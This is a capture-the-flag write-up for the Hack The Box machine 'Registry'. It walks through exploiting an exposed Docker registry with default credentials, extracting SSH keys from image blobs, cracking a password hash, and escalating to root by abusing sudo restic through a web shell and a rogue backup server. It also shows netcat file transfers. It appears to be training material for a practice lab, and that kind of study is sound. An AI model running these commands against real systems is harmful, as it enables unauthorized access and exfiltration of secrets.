 ## Registry | IP: 10.10.10.159

### Enumeration

##### Services

- 22
	+ OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80
	+ nginx 1.14.0 (Ubuntu)
- 443
	+ http-server-header: nginx/1.14.0 (Ubuntu)
	+ http-title: Welcome to nginx!
	+ ssl-cert: Subject: commonName=docker.registry.htb

##### Information Disclosure

Ran `dirbuster`. Got a directory ``http://docker.registry.htb/v2`. Login with `admin:admin`. 

Now this showed me a blank JSON response. Checked the response headers and found an interesting header.

![information disclosure](1.png)

Same could be identified with,

![nikto scan](2.png)

And yes, there exists a deadly exploit for that - https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/

### Exploiting Docker registry v2

> Follow: https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/  
> 
> We can use: https://github.com/NotSoSecure/docker_fetch/ for automation

1. Let's go to http://docker.registry.htb/v2/_catalog, we only get 1 repository.
2. Go to http://docker.registry.htb/v2/bolt-image/tags/list. There's only one tag called *latest*. 
3. We'll download the Manifest file to view the blobs. Here's the URL to do it: http://docker.registry.htb/v2/bolt-image/manifests/latest
4. Once we have a list of blobs, we can download each blob using the endpoint: `v2/blobs/sha256:<>/` 
5. This will download a gzipped file for each commit (or let’s say, configurational changes in base image) one blob is assigned).

## Owning User

- After each blob has been extracted, on running `grep -r ssh`, we found 3 interesting files:  
	+ `01-ssh.sh` - we got a password string: `GkOcz221Ftb3ugog`.
	+ `id_rsa`
	+ `id_rsa.pub`


```
local$ ssh -i id_rsa bolt@10.10.10.159 
# Enter password on prompt
bolt@bolt:~$ cat user.txt 
[------------------------]ywzi
```

## User 2

```
bolt@bolt:/var/www/html$ cat backup.php 
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

The `restic` command looks interesting.   
  
On looking further,

```
bolt@bolt:~$ l /var/www/html/bolt/app/database/
total 300
drwxrwxr-x 2 www-data www-data   4096 Mar  2 16:37 .
drwxrwxr-x 9 www-data www-data   4096 Oct 21 10:04 ..
-rw-r--r-- 1 www-data www-data 294912 Mar  2 16:41 bolt.db
```

Transfer this file to our local machine, then using `sqlitebrowser`, we get a set of credentials,

```
admin:$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

Pass it to `john`, we get 


```
admin:strawberry
```

These are the credentials for the web-app situated at http://registry.htb/bolt/bolt/ (identified by dirbuster)


### Root

> Exploit: https://www.exploit-db.com/exploits/46664
> 
> Read docs of restic: https://github.com/restic/restic
> 
> Used `rest-server`: https://github.com/restic/rest-server

Transfer,

```
local$ nc 10.10.10.159 4000 -w 3 < rest-server 
bolt@bolt:/tmp$ nc -nvlp 4000 > rest-server
bolt@bolt:/tmp$ chmod +x rest-server
bolt@bolt:/tmp$ restic init --repo mypwnrepo
# Set password="password" on prompt
bolt@bolt:/tmp$ ./rest-server --path mypwnrepo/ --no-auth --listen :6969
```

Finally,

```
shell.php?cmd=echo "password" > pass.txt 
shell.php?cmd=sudo /usr/bin/restic backup -r rest:http://0.0.0.0:6969/ /root/root.txt --password-file pass.txt
```

```
bolt@bolt:/tmp$ tar czf mypwnrepo.tar.gz mypwnrepo
```

Then, we can transfer the repo to our local machine, and recover the flag from it,

```
local$ restic -r mypwnrepo dump latest root.txt
enter password for repository: 
repository 508d1eb2 opened successfully, password is correct
[---------------------]ztgw
```

#### Pwned

![pwned](pwned.png)